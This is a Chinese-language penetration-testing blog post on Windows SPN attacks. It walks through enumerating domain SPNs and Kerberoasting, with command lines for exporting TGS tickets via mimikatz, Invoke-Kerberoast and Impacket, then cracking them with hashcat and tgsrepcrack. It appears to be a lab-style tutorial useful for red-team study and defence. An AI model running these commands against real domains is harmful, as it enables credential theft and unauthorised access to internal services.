 ```yaml
---
title: "Windows SPN 攻击"
date: 2019-07-19T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["windows",'spn']
categories: ["内网渗透"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



SPN 全称 Service Principal Name, 即服务主体名称. 将服务实例和服务账户与 Kerberos 协议相关联. 简单来说, SPN 使得域内的服务(例如 MSSQL Exchange FTP CIFS)在进行身份认证时都能采用 Kerberos 协议.

<!--more-->

## 信息收集

因为通常一部分服务会在域中注册 SPN, 而域中的所有用户都有权限查看 SPN 信息, 所以我们就可以利用 SPN 来达到无须端口探测以进行信息收集的目的.

常用 SPN 对应的服务 [ADSecurity](https://adsecurity.org/?page_id=183).

几种查询 SPN 信息的方式.

### setspn

```
setspn -Q */* // 查看所有 SPN
setspn -Q */DC // 查看 DC 主机的 SPN
```

### Powershell-AD-Recon

MSSQL.

```
Import-Module .\Discover-PSMSSQLServers.ps1
Discover-PSMSSQLServers
```
Exchange.

```
Import-Module .\Discover-PSMSExchangeServers.ps1
Discover-PSMSExchangeServers
```

HTTP FTP TERMSRV DNS... 

```
Import-Module .\Discover-PSInterestingServices.ps1
Discover-PSInterestingServices
```

按账户查看 SPN.

```
Import-Module .\Find-PSServiceAccounts.ps1
Find-PSServiceAccounts
```

### Kerberoast

```
cscript GetUserSPNs.vbs
```

`GetUserSPNs.ps1` 本地测试失败.


## 凭据爆破

当 Kerberos 凭据为 RC4\_HMAC\_MD5 加密时, 可通过 Kerberoast 或 Hashcat 进行凭据爆破.

域内机器为 2003 及以下时, 默认采用 RC4\_HMAC\_MD5 方式加密 Kerberos 凭据, 2008 R2 及以上系统需在组策略中手动更改(默认为 AES 加密).

先导出从 KDC 申请的 TGS Ticket. 然后再进行爆破. 这里有三种方法.

### mimikatz

```
kerberos::purge
kerberos::ask /target:MSSQLSvc/DC.test.com:1433
kerberos::list /export
```

### Invoke-Kerberoast

作者原本的 ps 脚本有错误. 要使用 Empire 中的版本.

```
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast.ps1 -OutputFormat hashcat | fl
```

### Impacket

可以在非域主机上导出 Hashcat 格式的密文. 需要域内用户的凭据.

```
GetUserSPNs.py -request -dc-ip 192.168.1.100 test.com/user
Password: ******* // Input password for user
```

导出后可通过 Kerberoast 自带的工具或 JohnTheRipper, Hashcat 爆破.

### Kerberoast

```
tgsrepcrack.py passwords.txt mssql.kirbi
```

### Hashcat

```
hashcat -m 13100 hash.txt passwords.txt
```

### 后续利用

Kerberoast 中的 `kerberoast.py` 可通过爆破得出的密码解密 Ticket, 不过在实际测试中一直失败(具体可看 [kerberoast issue](https://github.com/nidem/kerberoast/issues/11)).

个人认为可通过明文密码加上服务账户的用户名直接登录到对应的服务器(如 MSSQL Exchange FTP WEB CIFS), 也能使用 mimikatz 申请对应的 TGS Ticket 来访问服务, 不过暂未做具体测试.
